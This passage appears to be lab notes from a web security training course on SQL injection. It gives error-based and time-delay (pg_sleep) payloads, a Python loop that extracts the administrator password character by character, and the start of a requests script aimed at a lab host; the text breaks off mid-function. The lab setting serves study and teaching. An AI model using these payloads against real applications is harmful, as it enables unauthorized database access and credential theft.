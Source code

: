 ```python
    
#checkPayLoad("'||(select '' from dual)||'")
chars = "abcdefghijklmnopqrstuvwxyz0123456789-_"
name = ""
for pos in range(1, 21):
    for char in chars:
        if checkPayLoad(f"'||(select CASE when substr(password,{pos},1) = '{char}' THEN to_char(1/0) ELSE '' END from users where username = 'administrator')||'") == True:
            print(f"Found char {char} at position {pos}")
            name += char
            break
print(name)
```

### Lab: Visible error-based SQL injection

`' and 1=cast((select 1) as int)--`

`' and 1=cast((select username from users) as int)--`

`' and 1=cast((select username from users limit 1) as int)--`

`' and 1=cast((select password from users limit 1) as int)--`

## Exploiting blind SQL injection by triggering time delays

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

### Lab: Blind SQL injection with time delays and information retrieval

`'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END--;`

`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--`


`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```python
import requests
import time

url = "https://0a44006a04d440c481eb1b6900d80042.web-security-academy.net/filter?category=Gifts"
cookies = {
    "TrackingId": "yunGCtJo2eYBUC6i",
    "session": "mWuLYM4E8hgLjdJzUSvyb5t25jwlLE8t"
}

def getTime(payload):
    cookies_payload = cookies.copy()
    cookies_payload["TrackingId"] += payload
    start_time = time.time()
    response = requests.get(url, cookies=cookies_payload)
    elapsed_time = time.time() - start_time
    return elapsed_time

def extractPassword():
```